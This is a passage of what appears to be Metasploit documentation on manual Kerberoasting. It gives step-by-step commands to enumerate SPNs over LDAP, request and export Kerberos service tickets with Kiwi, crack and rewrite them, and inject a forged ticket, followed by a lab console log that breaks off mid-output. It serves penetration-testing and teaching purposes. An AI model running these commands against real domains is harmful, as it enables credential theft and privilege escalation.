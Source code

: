 An alternative to the easier `get_user_spns` module above is the more manual process of running the LDAP query module to
find Kerberoastable accounts, requesting service tickets with Kiwi, converting the Kiwi ticket to a format usable by hashcat,
and cracking the hash.

1. Start msfconsole
2. Obtain SPNs associated with user accounts from your target
   1. Do: `use auxiliary/gather/ldap_query`
   2. Do: `set action ENUM_USER_SPNS_KERBEROAST`
   3. Run the module and note the discovered SPNs
3. From your Meterpreter session:
   1. Do: `load kiwi`
   2. Do: Request a kerberos ticket for SPN found by the ldap_query module: `kiwi_cmd kerberos::ask /target:https/TSTWLPT1000000`
   3. Do: `kerberos_ticket_list`
4. Export service tickets using the kiwi extension
   1. Do: `kiwi_cmd kerberos::list /export`
5. Crack the encrypted password in the service ticket using tgsrepcrack.py (more info on this python script below)
   1. Do:  `python3 tgsrepcrack.py passlist.txt 1-40a10000-Administrator@HTTP\~testService-EXAMPLE.COM.kirbi`
6. Rewrite the service tickets using kerberoast.py (more info on this python script below)
   1. Do:  `python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500`
7. Finally inject the ticket back into RAM using Meterpreter's kiwi extension
   1. `meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi`

First an SPN needs to be found. This can be done in a number of ways - including using metasploit's
very own `auxiliary/gather/ldap_query` module:

```msf
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > set RHOSTS 172.16.199.235
RHOSTS => 172.16.199.235
msf6 auxiliary(gather/ldap_query) > set BIND_DN DARWIN_CLAY
BIND_DN => DARWIN_CLAY
msf6 auxiliary(gather/ldap_query) > set BIND_PW N0tpassword!
BIND_PW => N0tpassword!
msf6 auxiliary(gather/ldap_query) > set action ENUM_USER_SPNS_KERBEROAST
action => ENUM_USER_SPNS_KERBEROAST
msf6 auxiliary(gather/ldap_query) > run
[*] Running module against 172.16.199.235

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.16.199.235:389 Getting root DSE
dn:
namingcontexts: DC=example,DC=com
namingcontexts: CN=Configuration,DC=example,DC=com
namingcontexts: CN=Schema,CN=Configuration,DC=example,DC=com

...

======================================================================

 Name                  Attributes
 ----                  ----------
 cn                    BERYL_SAVAGE
 samaccountname        BERYL_SAVAGE
 serviceprincipalname  CIFS/OGCWLPT1000000

CN=CAITLIN_CAMPBELL OU=Devices OU=FIN OU=Tier 1 DC=example DC=com
=================================================================

```